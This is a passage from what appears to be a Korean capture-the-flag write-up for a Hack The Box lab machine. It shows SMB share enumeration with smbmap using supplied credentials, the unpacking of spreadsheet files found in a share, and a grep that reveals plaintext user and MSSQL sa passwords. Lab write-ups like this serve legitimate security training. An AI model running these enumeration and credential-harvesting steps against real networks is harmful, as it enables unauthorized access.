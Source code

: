 ```sh
SMB         10.10.11.51     445    DC01             ca_svc                        2025-04-01 14:32:29 0
SMB         10.10.11.51     445    DC01             [*] Enumerated 9 local users: SEQUEL
```

그리고 smbmap도 해본다.

```sh
smbmap -u rose -p KxEPkKe6R8su -H 10.10.11.51

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)

[+] IP: 10.10.11.51:445 Name: sequel.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Accounting Department                                   READ ONLY
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        SYSVOL                                                  READ ONLY       Logon server share
        Users                                                   READ ONLY
```

디폴트 파일들을 제외하면 Users와 Accounting Department에 읽기 권한이 있다.

Accounting Department안에 파일이 두개 있는데 엑셀 형식이지만 파일 정보를 보면 zip 파일이라고 나온다.

압축을 푼 다음 파일 내용을 확인해보면 크레덴셜을 발견할 수 있다.

```sh
grep -i pass -r .
grep: ./Default/NTUSER.DAT: binary file matches
./xl/sharedStrings.xml:<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preserve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t></si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malone</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst>
```
